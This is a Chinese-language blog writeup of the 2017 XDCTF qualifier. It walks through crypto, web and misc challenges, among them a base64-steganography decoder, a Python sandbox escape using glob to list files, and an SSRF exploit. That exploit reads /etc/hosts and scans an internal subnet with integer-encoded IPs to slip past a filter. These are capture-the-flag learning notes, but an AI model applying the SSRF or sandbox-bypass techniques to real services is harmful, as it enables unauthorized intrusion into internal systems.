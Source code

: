```yaml
---
layout: 
title: XDCTF 初赛部分题目WriteUp
date: 2017-10-04 13:27:27
tags:
	- CTF
	- XDCTF
	- Writeup
---
```


国庆假期水了下XDCTF的初赛，最后拿了个33名，没进决赛，不过学了不少东西，记一下
<!-- more -->
## Crypto

### 0x01 基础为王


从给的数据包中，可以找到两个分别名为flag-1 flag-2的图片，提取出来以后，使用Stegosolve进行一次XOR操作即可获得flag

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Crypto-1.png)


### 0x02 基础之Base64

给了长长的一大串base64，解密之后是一个C程序脚本，运行出helloword..

肯定不对啊，谷歌找资料，知道为base64隐写，网上有脚本可以直接进行解密

脚本如下

```python
# -*- coding: cp936 -*-
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('data.txt', 'rb') as f:
	bin_str = ''
	for line in f.readlines():
	    stegb64 = ''.join(line.split())
	    rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
  		offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
    	equalnum = stegb64.count('=') #no equalnum no offset
    	if equalnum:
        	bin_str += bin(offset)[2:].zfill(equalnum * 2)
    	print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
```
直接运行即可



## Web

Web就做出来一个题，比较菜/(ㄒoㄒ)/~~

### 0x01 Web2

题目忘记截图了。

python用来执行系统命令的四种方法都行不通，故意引用一个不存在的模块会在错误报告中，找到绝对路径

	File "/codes/6707603a4141a84912289293db7dcc1f/a.py"

而且glob模块并没有被禁用，可以借助它来列目录


```python
import glob
for filename in glob.glob(r''):
	print filename
```

从绝对路径开始，往下找，flag就在codes目录中，直接open读取输出即可获得flag


### 0x02 Web3
这个题目我没做出来，在此放上大表哥的flag

flag页面的URL为`http://web.ctf.xidian.edu.cn/web3/?file=flag.html`，推测为文件读取。

将flag.html改为index.php获得源码

```php
php
<?php
/*//设置open_basedir
ini_set("open_basedir", "/home/shawn/www/index/");
 */

if (isset($_GET['file'])) {
	$file = trim($_GET['file']);
} else {
	$file = "main.html";
}

// disallow ip
if (preg_match('/^(http:\/\/)+([^\/]+)/i', $file, $domain)) {
	$domain = $domain[2];
	if (stripos($domain, ".") !== false) {
		die("Hacker");
	}
}

if( 	@file_get_contents($file)!=''){
echo file_get_contents($file);

}else{
```



在这里卡了很久，最后推测是ssrf，通过读取`/etc/hosts`文件得知内网ip为`172.18.0.3`。

由于正则表达式过滤了形如`127.0.0.1`的ip，使用整形ip来代替，扫描内网。

```python
python
#-*- coding:utf-8 -*-
import socket
import requests
import urllib

for i in range(1, 256):
	ip = '172.18.0.%d' % i
	int_ip = int(socket.inet_aton(ip).encode('hex'), 16)
	#print int_ip
	r = requests.get('http://web.ctf.xidian.edu.cn/web3/?file='+urllib.quote_plus('http://%d' % int_ip))
	if 'flag' in r.text:
		print ip, int_ip
		print r.text
		break
```


172.18.0.2有flag


```html
172.18.0.2 2886860802
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.13.5</center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- do u see me? ha flag{0e34c0321b2b3048d399b41a8ffda584} -->
```
## Misc

### 0x01 邮箱

根据提示

小黑发现一个有趣的博客，于是注册了一个账号，你能找到他的邮箱地址吗？
注意：直接递交邮箱地址即可。

打开数据包后，查找含有 register 的数据流

	http contains "register"

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-1.png)

分别进行追踪流操作，经过尝试可以获得flag

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-2.png)